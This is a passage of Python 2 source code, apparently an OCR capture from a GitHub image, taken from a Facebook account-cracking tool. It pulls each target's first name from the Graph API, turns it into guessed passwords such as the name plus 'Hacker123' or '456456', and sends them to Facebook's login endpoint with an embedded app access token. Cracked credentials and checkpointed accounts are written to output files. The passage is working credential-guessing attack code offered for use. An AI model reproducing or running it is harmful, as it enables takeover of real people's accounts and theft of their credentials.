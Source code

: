 													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['first_name'] + 'Hacker123'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

															cek = open("out/checkpoint.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

															b = json.loads(a.text)

															pass7 = b['first_name'] + '456456'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
